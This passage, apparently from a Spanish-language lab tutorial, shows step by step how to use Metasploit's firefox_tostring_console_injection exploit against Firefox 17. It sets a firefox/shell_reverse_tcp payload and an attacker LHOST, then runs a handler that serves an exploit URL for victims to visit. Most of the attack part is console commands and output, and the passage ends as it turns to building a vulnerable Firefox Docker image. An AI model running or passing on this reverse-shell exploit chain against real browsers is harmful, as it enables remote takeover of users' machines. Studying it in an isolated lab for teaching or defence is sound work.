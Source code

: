 Seleccionamos ahora el **payload** a ejecutar tras la explotación del fallo. En nuestro caso lo que queremos es una shell, así que seleccionaremos el payload `firefox/shell_reverse_tcp`:

```bash

msf exploit(firefox_tostring_console_injection) > set payload firefox/shell_reverse_tcp
msf exploit(firefox_tostring_console_injection) > show options

...

Payload options (firefox/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)
```

Si hacemos un `show options` vemos que el payload necesita la IP donde queremos que escuche. Es decir: **donde se conectarán nuestras víctimas** una se haya explotado el fallo en el navegador: La IP donde está ejecutándose Metasploit:

```bash

msf exploit(firefox_tostring_console_injection) > set LHOST 10.211.55.61
```

Por último, ya solo tenemos que poner a escuchar metasploit:

```bash

msf exploit(firefox_tostring_console_injection) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.211.55.61:4444
[*] Using URL: http://0.0.0.0:8080/7eeNxNzqd
[*] Local IP: http://10.211.55.61:8080/7eeNxNzqd
[*] Server started.
```

Y listo! Ahora solo tendremos que lograr que la víctima (nuestro Firefox vulnerable) se conecte a la URL: `http://10.211.55.61:8080/7eeNxNzqd`.

## Creación del Docker con Firefox 17

Como ya os he comentado, ya hay gente que se ha currado estas cosas. Por ejemplo: https://hub.docker.com/r/chrisdaish/firefox/~/dockerfile/ 
